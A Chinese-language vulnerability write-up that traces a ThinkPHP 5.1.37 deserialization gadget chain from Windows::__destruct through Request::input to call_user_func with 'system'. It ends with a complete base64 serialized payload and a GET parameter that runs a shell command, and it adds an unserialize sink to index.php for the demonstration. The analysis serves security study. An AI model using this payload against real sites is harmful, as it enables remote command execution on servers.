thinkphp5.1.37反序列化漏洞分析
part 1
反序列化起始点为__destruct、__wakeup，因为这两个函数的调用在反序列化过程中都会自动调用。
因此寻找代码中可用的__destruct函数，找到thinkphp/library/think/process/pipes/Windows.php中的__destruct 方法：

调用removeFiles()方法，
跟进removeFiles()，发现可以利用file_exit函数触发任意类的__toString()。因为file_exit函数会将变量当做字符串执行：

跟进thinkphp/library/think/.Collection.php中的__toString方法，其调用了toJson方法，而toJson方法中调用了toArray方法:

由于__toString函数的返回结果调用了toArray方法，而toArray中可以触发__call的地方:
thinkphp/library/think/model/concern/Conversion.php:

这里我们利用到$relation->visible这个触发点：
1 | 当$relation不存在的时候，就会进入到$relation->visible($name)，而$relation = $this->getRelation($key); |
part 2
因此全文查找一个符合条件的__call函数：
thinkphp/library/think/Request.php：

在这个方法中，$this->hook[$method]参数可控，相当于call_user_func_array(array(任意类，任意方法),$args)。
call_user_func_array()是将$args数组作为参数传入array(任意类，任意方法)函数中使用。
但是用于前面的array_unshift，会将$this对象插入到$args数组的头部位置，然后$args又作为call_user_func_array的参数调用，这样的话，$this是一个固定的Request类，构造命令执行需要在Request中寻找到合适的方法。
在Request类中存在input函数：

1 | if (is_array($data)) { |
跟进查看这个filterValue过滤器函数：

call_user_func($filter, $value);
直接进行call_user_func的命令执行。
因此如果能调用input方法，就能成功构造payload导致命令执行。
但是如果直接调用input方法，传入的$name的类型为数组回和input函数中对$name强制转化为字符串的类型冲突，导致程序异常退出。
toArrray()中要求传入的$name是数组的形式：

而在input函数中会强制转化为string类型：

因此寻找调用input函数的方法，找到param()方法，但是param方法的第一个参数都为$name变量，传入后同样造成类型冲突。
再寻找param()被调用的地方试试，在Request类中有一个isAjax方法，调用了param函数，且被调用的param函数中第一个值$this->config[‘var_ajax’]可控，将其构造成字符串的形式，就能符合input函数中对于$name的类型判断。

在这里跟进param()方法：

$name经过method函数和method函数调用的server函数处理后，返回的是字符串false字段;满足调用input方法时string类型的转化问题。
$this->param字段值由get方法传入获取，可以在payload中直接设定该参数的值，因为最后的利用采用的是get传参方式，可以获取到该值。将该值设置为数组，即可满足传入input中$data为数组的要求。
其中$filter参数由$filter = $this->getFilter($filter, $default);中$this->filter获取。

因此：
传入的$this->param构造成数组的形式，$name返回的是false字段满足input函数中的string类型转化；$filter由input函数中获取：

进入input函数，触发filterValue函数，执行call_user_func()，造成命令执行。
part 3
整理一下思路：
1 | 一开始是通过Windows.php中的__destruct 方法调用removeFiles()，其中的file_exist触发toString方法，toString调用了toJson返回值调用了toArray，其中toArray存在__call函数调用的触发点； |
因此：
只需要让Request 对象中的 $this->filter=’system’ 且 isAjax调用的param中的$this->param=array(‘id’) 即可。其相当于最终命令执行中的参数$filter以及$value。（$this->param构造成数组的形式是为了满足input函数的要求）
poc
1 | 最终的payload： |
在index.php主页中增加反序列化触发的代码：

传入：
1 | TzoyNzoidGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzIjoxOntzOjM0OiIAdGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzAGZpbGVzIjthOjE6e2k6MDtPOjE3OiJ0aGlua1xtb2RlbFxQaXZvdCI6Mjp7czo5OiIAKgBhcHBlbmQiO2E6MTp7czo1OiJldGhhbiI7YToxOntpOjA7czozOiJkaXIiO319czoxNzoiAHRoaW5rXE1vZGVsAGRhdGEiO2E6MTp7czo1OiJldGhhbiI7TzoxMzoidGhpbmtcUmVxdWVzdCI6Mzp7czo3OiIAKgBob29rIjthOjE6e3M6NzoidmlzaWJsZSI7YToyOntpOjA7cjo4O2k6MTtzOjY6ImlzQWpheCI7fX1zOjk6IgAqAGZpbHRlciI7czo2OiJzeXN0ZW0iO3M6OToiACoAY29uZmlnIjthOjE6e3M6ODoidmFyX2FqYXgiO3M6MDoiIjt9fX19fX0=&xiao=dir |

直接在后面加上xiao=dir或者是在poc中写入$this->param都可。